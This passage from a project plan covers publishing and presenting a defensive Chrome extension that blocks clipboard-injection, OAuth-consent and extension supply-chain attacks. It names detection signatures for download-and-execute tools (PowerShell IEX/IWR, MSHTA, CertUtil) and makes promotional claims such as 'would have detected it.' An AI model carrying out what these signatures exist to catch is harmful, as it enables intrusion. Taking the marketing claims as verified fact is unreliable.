- Primary: ESET H1 2025 Threat Report (June 26, 2025)
- Primary: Unit 42 Muddled Libra Analysis (August 5, 2025)
- Confirms: #2 global attack vector; 47% of initial access

## OAuthGuard Scope Parser
- Primary: Mandiant UNC6040 Advisory (June 2025) — voice-directed Salesforce OAuth
- Primary: Cyberhaven Engineering Blog (Jan 2025) — chromewebstore scope compromise
- Primary: Microsoft MSTIC Storm-2372 Advisory (Feb 2025) — Device Code Flow
- Source: [Full OAuth Research Report](./docs/oauth_identity_phishing_research_2026.md)

## ExtensionAuditor Hash Baseline
- Primary: Hunters' Team Axon Chrome Extension Campaign Analysis (Jan 17, 2025)
- Primary: Sekoia.io Supply Chain Attack Analysis (Mar 4, 2025)
- Primary: Cyberhaven Preliminary Analysis (Jan 2025)
- Attack affected: 35 extensions, 2.6M users, 24-hour detection window
```

### 5.3 — Architecture Diagram (Mermaid)



---

## Phase 6: Chrome Web Store Publication (Days 43–50)

*Goal: Extension live on Chrome Web Store — turns the portfolio project into a real, installable product.*

### 6.1 — Publication Checklist

- [ ] All manifest V3 permissions justified in store listing description
- [ ] Privacy policy published (required for host_permissions): "PhishOps does not transmit any user data to external servers. All detection data is stored locally in chrome.storage.local."
- [ ] Screenshots: 1280×800, at least 2 required (show ClickFix blocked, show OAuth warning)
- [ ] Store description: lead with the Cyberhaven story — "35 Chrome extensions, 2.6M users, compromised in December 2024. PhishOps would have detected it."
- [ ] Category: Productivity → Security
- [ ] One-time developer fee: $5

### 6.2 — Chrome Web Store Listing Copy

```
PhishOps Security Suite — Browser-Native Phishing Defence

PhishOps protects against three attack classes that enterprise security 
tools miss:

🔴 ClickFix Clipboard Attack Blocker
The #2 global attack vector (ESET H1 2025). When a malicious webpage 
silently injects a PowerShell command into your clipboard and tells you 
to paste it in Run — PhishOps blocks it. Used by Lazarus Group, FIN7, 
and APT28.

🟡 OAuth Consent Scope Analyser  
Evaluates what permissions an OAuth application is requesting before you 
click Allow. Flags the chromewebstore scope used in the December 2024 
Cyberhaven supply chain attack (2.6M users) and CRM platform scopes 
documented in the Mandiant UNC6040 advisory (June 2025).

🟢 Extension Integrity Monitor
Detects when an installed extension is silently updated with modified 
code — the Cyberhaven attack class. Flags permission and version changes 
that may indicate supply chain compromise.

Built on primary-source threat intelligence from Mandiant, Microsoft MSTIC, 
Unit 42, ESET, and academic security research.

No data leaves your browser. All detection is local.
```

---

## Phase 7: Resume & Interview Positioning (Reference Guide)

*Not a build phase — a communication guide for how to present this work.*

### 7.1 — Resume Bullet Points

**Option A (Concise):**
```
PhishOps Browser Suite | Chrome Extension | MV3, JavaScript, React, Web Crypto API
• Built browser-native defences against ClickFix (#2 global attack vector, ESET H1 2025),
  OAuth consent phishing (Mandiant UNC6040, June 2025), and supply chain attacks
  (Cyberhaven — 35 extensions, 2.6M users, December 2024)
• Implemented real-time clipboard API interception, OAuth scope risk analysis against
  named threat actor scope strings, and cryptographic extension hash monitoring
• Grounded in primary-source research: Microsoft MSTIC, Mandiant, Unit 42, ESET;
  supported by 14-domain threat intelligence corpus
```

**Option B (Technical-first):**
```
PhishOps Browser Suite | Offensive-informed defensive Chrome extension (MV3)
• Hooked navigator.clipboard.writeText() to intercept ClickFix clipboard injection;
  pattern-matched against 8 documented LOLBin signatures (PowerShell, MSHTA, CertUtil,
  IEX/IWR, DNS-based Feb 2026 variant)
• Built OAuth scope risk engine mapping 20+ scopes to named threat actors (UNC6040,
  APT29, Cyberhaven campaign) using primary Mandiant/Microsoft MSTIC intelligence
• Deployed SHA-256 hash baseline via Web Crypto API against chrome.management.getAll()
  output to detect Cyberhaven-class supply chain updates before code execution
```

### 7.2 — Interview Talking Points (Depth Questions)

**"Why did you choose these three modules?"**  
Lead with the research process: "I spent three weeks doing primary-source threat intelligence research before writing a line of code. I prioritised based on two criteria: impact per line of code, and whether any existing tool covered it. ClickFix was #2 globally by attack vector prevalence, 40 lines to build, and no existing browser extension addresses the clipboard write direction. OAuthGuard covers a Mandiant-documented attack that no consumer tool intercepts before the consent is granted."

**"What can't PhishOps detect?"**  
Show you know the gaps: "Device Code Flow phishing — where the victim interacts only with legitimate microsoft.com/devicelogin — has no browser-layer detection hook because there's no malicious page to inspect. The correct defence layer is SIEM/Entra ID KQL queries, which I also built, just not as a browser extension. NFC tag phishing has the same architectural limitation — `document.referrer` doesn't expose NFC origin. I documented these as confirmed gaps rather than overclaiming."

**"How does OAuthGuard handle false positives?"**  
"The risk model uses named threat actor scope strings from primary sources, not heuristics. `chromewebstore` scope is never benign in a user context — only extension developers ever need it. `Mail.ReadWrite + Mail.Send + offline_access` together is the APT29 post-compromise email persistence pattern documented by Microsoft. The combination model reduces false positives versus individual scope flagging."

**"What would you build next?"**  
"The MCP attack surface is the highest-severity unmitigated gap. Two CVEs were filed in 2025 (CVE-2025-6514 and CVE-2025-49596) and MCPSECBENCH benchmarks show 0% protection from current tools against rug pull attacks. MCPGuard would operate as a companion desktop agent (not a browser extension, since MCP uses STDIO not HTTP) to hash tool descriptions between sessions. It's a natural follow-on."

### 7.3 — Portfolio Presentation Materials

For any portfolio site or GitHub Pages:

1. **One-page project overview** with GIF demo as hero (renders in browser without download)
2. **Threat intelligence explorer** — React page that lets you browse the 14-domain research corpus interactively (show research depth beyond the code)
3. **"Coverage matrix"** — visual showing which attack chains PhishOps detects vs. which require SIEM/other-layer solutions (demonstrates architectural thinking)

---

## Timeline Summary

| Week | Phase | Deliverable |
|---|---|---|
| 1 | Phase 0 + Phase 1 start | Repo live, CI green, MV3 skeleton loading |
| 2 | Phase 1 complete | ClickFix detector working, tests passing, GIF recorded |
| 3–4 | Phase 2 | OAuthGuard scope parser, demo page, tests |
| 5 | Phase 3 | ExtensionAuditor hash baseline, popup dashboard v1 |
| 6 | Phase 4 + 5 start | Dashboard polished, README skeleton |
| 7 | Phase 5 complete | Full README, architecture diagram, THREAT_INTELLIGENCE.md |
| 8 | Phase 6 | Chrome Web Store published (or submitted for review) |

**Minimum viable portfolio (4 weeks):** Phase 0 + Phase 1 + Phase 2 + README. ClickFix detector + OAuthGuard + documented architecture is enough to stand out.

---

## What Makes This Portfolio Project Different

Most security portfolio projects are either:
(a) A CTF writeup with no code, or
(b) Code with no threat model

PhishOps is designed to be neither. The differentiators that should be made explicit in all materials:

1. **Primary-source research foundation** — every module maps to a named CVE, named threat actor, or named primary research paper. Not "phishing is common." Mandiant June 2025, ESET H1 2025, Cyberhaven Engineering Blog.

2. **Honest gap documentation** — most portfolio projects overclaim. PhishOps explicitly documents what it cannot detect (Device Code Flow, NFC, STDIO MCP) and why. This is a senior engineering signal.

3. **Attack-grounded detection logic** — the scope database maps `full` Salesforce scope to UNC6040, `chromewebstore` to Cyberhaven, `Mail.ReadWrite + Mail.Send + offline_access` to APT29. The code cites its sources. This is unusual and impressive.

4. **Real deployment** — Chrome Web Store publication turns research into a product. Badge count, user count (even if small), and store listing show production orientation.
